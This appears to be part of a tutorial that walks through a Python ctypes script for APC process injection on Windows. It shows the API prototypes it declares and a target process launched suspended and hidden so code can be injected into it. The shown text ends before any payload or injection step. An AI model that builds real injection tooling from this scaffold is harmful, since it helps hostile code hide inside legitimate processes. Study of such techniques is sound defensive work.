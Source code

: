 ```python
LPSECURITY_ATTRIBUTES = POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

PAPCFUNC = CFUNCTYPE(
    None,
    POINTER(wintypes.ULONG)
)
```

__Windows API Function Definitions__

The script defines Windows API functions with their exact parameter types and return values to ensure proper interaction with the operating system. These definitions must be precise to prevent memory corruption or unexpected behavior during process manipulation and memory operations.

```python
CreateProcessA = kernel32.CreateProcessA
CreateProcessA.argtypes = (
    wintypes.LPCSTR,
    LPTSTR,
    LPSECURITY_ATTRIBUTES,
    LPSECURITY_ATTRIBUTES,
    wintypes.BOOL,
    wintypes.DWORD,
    wintypes.LPVOID,
    wintypes.LPCSTR,
    LPSTARTUPINFOA,
    LPPROCESS_INFORMATION
)
CreateProcessA.restype = wintypes.BOOL

# [...]
```
Similarly, other functions such as `QueueUserAPC`, `ResumeThread`, `VirtualAllocEx`, `VirtualProtectEx` and `WriteProcessMemory` are also defined.

__Process Creation__

The process creation phase creates the target process in a suspended state, providing time to perform the injection before process initialization. The _startup information_ structure controls the process's initial state, while the _process information_ structure receives handles for memory manipulation and thread control.

```python
startup_info = _STARTUPINFOA()
startup_info.cb = sizeof(startup_info)
startup_info.dwFlags = 1
startup_info.wShowWindow = 0

process_info = _PROCESS_INFORMATION()
process = CreateProcessA(
    INJECT_PATH,
    None,
    None,
    None,
    False,
    CREATE_SUSPENDED | CREATE_NO_WINDOW,
    None,
    None,
    byref(startup_info),
    byref(process_info)
)
process_id = process_info.dwProcessId
h_process = process_info.hProcess
h_thread = process_info.hThread
thread_id = process_info.dwThreadId
```